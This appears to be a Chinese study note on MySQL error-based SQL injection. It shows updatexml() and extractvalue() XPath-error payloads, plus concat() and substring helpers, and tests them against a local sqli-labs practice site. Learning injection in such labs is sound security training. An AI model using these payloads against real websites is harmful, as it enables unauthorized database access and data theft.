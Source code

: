 ### xpath报错

xml文档当中去提取、标记数据【32字符】

updatexml()

```sql
updatexml(xml_document,xpath,new_value)
updatexml(1,0x7e,1)
select * from users where id='1' and updatexml(1,0x7e,1)
```

extractvalue()

```sql
extractvalue(xml_document,xpath)
extractvalue(1,0x7e)
select * from users where id='1' and extractvalue(1,0x7e)
```

exp()报错

floor()报错

### 函数说明

concat()

```sql
select concat(1,2,3,4,5,6,7)
concat(0x7e,database(),0x5e)
```

mid()/substr()/substring()

```sql
select mid(database(),1,1)
select substr(database(),1,3)
select substring(database(),2,4)
select mid(database(),5,6)
```

### 测试语句

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,0x7e,1)
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and extractvalue(1,0x7e)

select * from users where id='1' and updatexml(1,0x7e,1)
select * from users where id='1' and updatexml(1,0x5e,1)
select * from users where id='1' and updatexml(1,0x21,1)
select * from users where id='1' and updatexml(1,0x22,1)
select * from users where id='1' and updatexml(1,0x23,1)
select * from users where id='1' and updatexml(1,0x25,1)
select * from users where id='1' and updatexml(1,0x26,1)
```

### 判断注入点注入类型
